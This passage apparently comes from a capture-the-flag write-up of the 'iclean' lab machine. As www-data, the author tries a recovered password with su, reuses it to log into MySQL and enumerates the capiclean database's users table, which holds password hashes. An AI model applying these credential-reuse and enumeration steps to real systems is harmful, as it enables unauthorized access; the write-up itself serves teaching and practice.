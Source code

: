 ```python
<..SNIP..>
```

This password doesn't work with consuela:

```bash
www-data@iclean:/opt/app$ su consuela
Password: pxCsmnGLckUb
su: Authentication failure
```

But I can connect to the database:

```bash
www-data@iclean:/opt/app$ mysql -u'iclean' -p
Enter password: pxCsmnGLckUb
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 450
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

In the capiclean database there is a 'users' table:

```bash
mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.01 sec)
```

I will describe it to see the columns and extract the interesting ones:

```bash
mysql> describe users;
+----------+-------------+------+-----+---------+----------------+
| Field    | Type        | Null | Key | Default | Extra          |
+----------+-------------+------+-----+---------+----------------+
| id       | int         | NO   | PRI | NULL    | auto_increment |
| username | varchar(50) | NO   | UNI | NULL    |                |
| password | char(64)    | NO   |     | NULL    |                |
| role_id  | char(32)    | NO   |     | NULL    |                |
+----------+-------------+------+-----+---------+----------------+
4 rows in set (0.00 sec)
```
